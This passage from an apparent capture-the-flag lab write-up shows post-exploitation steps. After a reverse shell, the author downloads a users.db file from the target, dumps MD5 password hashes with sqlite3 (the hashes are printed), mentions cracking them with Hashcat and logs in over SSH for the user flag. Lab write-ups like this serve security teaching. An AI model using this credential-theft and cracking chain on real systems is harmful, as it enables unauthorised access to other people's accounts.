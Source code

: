 ```JavaScript
    console.log("Popen no encontrado");
}
```
After running it, i get a reverse shell connect back.

<img width="953" height="314" alt="2025-08-17 120712" src="https://github.com/user-attachments/assets/7e84c3bb-7121-4b49-ba2a-cbc0bc5bde0c" />

In /home/app/app/instances there is a users.db file, exactly like the file we downloaded earlier from the site. I will start a Python server and download the file.

```bash
└─$ wget http://10.129.151.7:8080/users.db 
--2025-08-17 06:10:02--  http://10.129.151.7:8080/users.db
Connecting to 10.129.151.7:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 16384 (16K) [application/octet-stream]
Saving to: ‘users.db’

users.db                                                            100%[=================================================================================================================================================================>]  16.00K  91.3KB/s    in 0.2s    

2025-08-17 06:10:03 (91.3 KB/s) - ‘users.db’ saved [16384/16384]
```

Inspecting the database, this time we see there are creds stored in MD5 hash format

```bash
└─$ sqlite3 users.db               
SQLite version 3.46.1 2024-08-13 09:16:08
Enter ".help" for usage hints.
sqlite> .tables
code_snippet  user        
sqlite> select * from user;
1|marco|649c9d65a206a75f5abe509fe128bce5
2|app|a97588c0e2fa3a024876339e27aeb42e
sqlite> 

```
Running Hashcat, we successfully crack the hash.

<img width="1256" height="870" alt="2025-08-17 121214" src="https://github.com/user-attachments/assets/895690a0-bfae-426f-b2fc-a1fd12b6b2c1" />

Now we can authenticate with SSH and grab the user flag.

```bash
└─$ ssh marco@10.129.151.7         
The authenticity of host '10.129.151.7 (10.129.151.7)' can't be established.
ED25519 key fingerprint is SHA256:KGKFyaW9Pm7DDxZe/A8oi/0hkygmBMA8Y33zxkEjcD4.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.151.7' (ED25519) to the list of known hosts.
marco@10.129.151.7's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-216-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sun 17 Aug 2025 10:12:53 AM UTC

  System load:           0.0
  Usage of /:            57.0% of 5.08GB
  Memory usage:          24%
  Swap usage:            0%
  Processes:             232
```